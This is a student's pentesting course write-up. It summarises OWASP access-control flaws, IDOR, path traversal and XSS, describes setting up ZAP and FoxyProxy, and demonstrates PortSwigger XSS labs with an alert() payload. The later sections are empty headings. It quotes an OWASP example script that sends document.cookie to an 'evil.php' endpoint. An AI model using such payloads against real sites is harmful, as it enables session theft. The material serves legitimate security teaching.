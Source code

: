 ## Yunwei Cui | Pentesting Course

# h3: Totally legal certificate

## x. Summaries

### A:01:2021 Broken Access Control

Access control refers to the ability of users to modify, create and read data in their roles. Sometimes a business has databases or apps or cloud infra and you should give certain people only certain permissions to do their intended work without accidentally allowing them to delete everything.

Examples:
- Violation of least privilege
- Modifying URL or API requests can break AC
- Elevating your privilegess to admin even if you're just a normal user
- Insecure direct object references which means modifying an ID of a request parameter in order to access data they are not supposed get access to (PortSwigger)

Some ways to prevent these:
- Implementing least privilege, models to control ownership, log access and failures, alert admins of repeated failures

#### Insecure Direct Object Reference 
aka IDOR means that the user gets direct access to objects such as database. 
- An example would be an URL that retrieves information directly from the back-end database. An attacker could modify the URL to retrieve something else other than what you want them to get if not secured properly
- This sounds a lot like SQL injection except instead of injecting a query, you simply do not have the proper restrictions to the database access

#### Path Traversal
Let's the attacker read files on the server running the app which you didn't intend for them to read. This could include sensitive data and passwords. An url could include filename such as `src=/files/usr/something.png`, you could potentially change the file path to display something else.

#### Cross Site Scripting
aka XSS is a vulnerability that allows an attacker to modify the javascript of the page and potentially compromise users who login into the page. An example of this would be the using the alert() function to inject malicious javascript code or inserting `<script>` tag into an HTTP request.

It can also be stored, for example, if an app let's you write plain HTML into their web app without any security checks, you could inject malicious `<script>` tags into them to do bad things.


## a. Install OWASP ZAP

I downloaded zaproxy using `sudo apt-get install zaproxy`

<img src="h3.1.png" alt="img"/>

Next I need to get a certificate for the proxy to act as an intermediary between the browser and me. 

It was found under Tools => Options => Network => Server Certificates and generated the certificate

<img src="h3.2.png" alt="img"/>

I then went to Firefox, imported the certificate and saved.

<img src="h3.5.png" alt="img"/>

<img src="h3.6.png" alt="img"/>

Finally I went into the browser, turned on the proxy setting on Firefox and set up the proxy.

<img src="h3.3.png" alt="img"/>

<img src="h3.4.png" alt="img"/>

I used localhost on port 8080, saved and opened Google.com. We can see that zap is listening properly on the right ports.

<img src="h3.7.png" alt="img"/>

## b. Install FoxyProxy

Installing it is straightforward, it's an extension that is added on Firefox

<img src="h3.8.png" alt="img"/>

First I had to disable manual proxy in Firefox and opened FoxyProxy. I went into the options and Proxies and put in the ZAP proxy localhost settings and used port 8080. Remember to save.

<img src="h3.9.png" alt="img"/>

Now we can go back and see ZAP as a setting on FoxyProxy which we can use. We can choose between disable and ZAP.

<img src="h3.10.png" alt="img"/>

It works.
<img src="h3.11.png" alt="img"/>

## c Reflected XSS into HTML context with nothing encoded

This is a Portswigger lab about cross site scripting. The searchbar is vulnerable to cross-site scripting because it runs the given input unsanitized as HTML which is very dangerous. It can lead to stealing of cookie sessions with a simple script.

<img src="h3.12.png" alt="img"/>

Here I will just do a demonstration that Javascript works by using `<script>alert('this is vulnerable');</script>`

<img src="h3.13.png" alt="img"/>

## d. Stored XSS into HTML context with nothing encoded

In this portswigger lab, we have a comment section which is vulnerable to XSS. We can check this with the same script: 

<img src="h3.14.png" alt="img"/>

## e. Why is this dangerous?

The reason this can be dangerous is because it can be used to steal your cookie sessions on the webpages you visit such as facebook, gmail, etc.

An example on OWASP.ORG: 

```javascript
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```  
This allows the person to grab all your cookies and write to attacker's file on their .php server

Not only that, the bad actor could write malware or malicious code that does bad things to your computer. It's very difficult to protect yourself from this because it is the website developer's responsibility to make sure their site is safe. 

## f.

## g.

## h.

## i.

## k

## l

## References
https://terokarvinen.com/tunkeutumistestaus/#h3-taysin-laillinen-sertifikaatti

https://www.youtube.com/watch?v=_Of3PqqKxDA

https://owasp.org/Top10/A01_2021-Broken_Access_Control/

https://portswigger.net/web-security/access-control/idor

https://portswigger.net/web-security/file-path-traversal

https://portswigger.net/web-security/cross-site-scripting

https://www.zaproxy.org/getting-started/

https://www.youtube.com/watch?v=tmk3yfOJ55w

https://owasp.org/www-community/attacks/xss/

